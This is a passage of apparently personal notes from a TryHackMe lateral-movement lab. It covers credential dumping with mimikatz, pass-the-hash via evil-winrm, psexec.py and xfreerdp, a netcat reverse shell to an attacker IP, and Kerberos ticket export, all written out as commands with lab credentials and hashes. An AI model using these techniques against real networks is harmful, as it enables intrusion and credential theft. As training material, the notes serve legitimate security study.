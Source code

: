 - And we get a shell on our `msfconsole`
---------------------------------------------------------------------------------
- This is assumed breach so we have creds for THMJMP2 as well
	A.TRYHACKME.COM\t2_felicia.dean:iLov3THM!

- Got in using
```bash
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
```

- `PASS-THE-HASH`
- We need the hash of the required user
```bash
.\mimikatz.exe
privilege::debug
token::elevate

sekurlsa::msv
```

- Found user `t1_toby.beck` hash
```bash
533f1bd576caa912bdb9da284bbc60fe
```

- We can use these methods to pass the hash using linux box
```bash
evil-winrm -i 10.200.71.201 -u 't1_toby.beck' -H '533f1bd576caa912bdb9da284bbc60fe'

psexec.py -hashes 533f1bd576caa912bdb9da284bbc60fe:533f1bd576caa912bdb9da284bbc60fe t1_toby.beck@10.200.71.201

xfreerdp /v:10.200.71.201 /u:za\\t1_toby.beck /pth:533f1bd576caa912bdb9da284bbc60fe
```

- Another way to do it
- We already have thh required hash
- We can use `mimikatz.exe` 
```bash
token::revert # Cant work with elevated privileges

sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.65.97 5555"

# On kali
nc -lvnp 5555
```

- And we get a shell
- `PASS-THE-TICKET`
- We can use `mimiaktz.exe` to extract kerberos tickets or session keys as well
```bash
privilege::debug
sekurlsa::tickets /export 
```
